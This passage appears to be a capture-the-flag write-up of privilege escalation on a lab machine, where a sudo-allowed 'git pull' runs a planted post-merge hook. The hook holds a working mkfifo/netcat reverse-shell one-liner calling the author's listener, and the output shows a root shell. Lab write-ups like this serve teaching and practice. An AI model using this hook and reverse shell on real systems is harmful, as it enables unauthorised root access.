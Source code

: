 After some searching I found that it can be abused with [Git Hooks](https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks). Bash scripts that runs after various operations in Git.

After looking for a while for a hook that runs after a pull I found [This](https://stackoverflow.com/questions/4185400/is-there-any-git-hook-for-pull).

So now i will create a post-merge hook in one of the reposotoris .git/hooks directory. One problem was that www-data cant write in those directories so i copied one of the reposotries to /tmp.

Creating reverse shell in post-merge

    www-data@bitlab:/tmp/profile$ cat /tmp/profile/.git/hooks/post-merge      
    #/bin/bash
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.172 9001 >/tmp/f
    www-data@bitlab:/tmp/profile$ chmod +x /tmp/profile/.git/hooks/post-merge
    www-data@bitlab:/tmp/profile$ sudo git pull
    From ssh://localhost:3022/root/profile
       master     -> origin/master
     * &#91;new branch]      patch-2603 -> origin/patch-2603
    Updating ccf9eff..6c6f8a7
    Fast-forward
     index.php |   2 +-
     1 file changed, 2 insertions(+), 0 deletions(-)

On my listener

    root@kali:/opt/static-binaries/windows# nc -lvnp 9001
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::9001
    Ncat: Listening on 0.0.0.0:9001
    Ncat: Connection from 10.10.10.114.
    Ncat: Connection from 10.10.10.114:45566.
    # id
    uid=0(root) gid=0(root) groups=0(root)
    #
